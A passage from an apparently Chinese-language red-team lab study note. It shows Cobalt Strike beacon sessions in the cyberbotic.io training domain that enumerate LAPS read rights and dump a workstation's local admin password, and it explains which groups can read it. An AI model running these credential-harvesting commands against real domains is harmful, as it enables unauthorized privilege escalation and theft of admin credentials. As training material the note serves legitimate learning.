 beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support}
```

NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support三个组都有权限读取指定OU的密码

DEV\nlamb在DEV\Domain Admins，所以有权读取

```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are DEV\nlamb
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 183 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : fk43i9785W8Cw5
ExpirationTimestamp : 8/28/2022 8:58:44 AM

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661471925451.png)

 DEV\bfarmer不在上面三个组的任何一个，所以读取的时候密码是空的
```
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are DEV\bfarmer
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 38 bytes
[+] received output:
wkstn-1

beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 405 bytes
[+] received output:
#< CLIXML
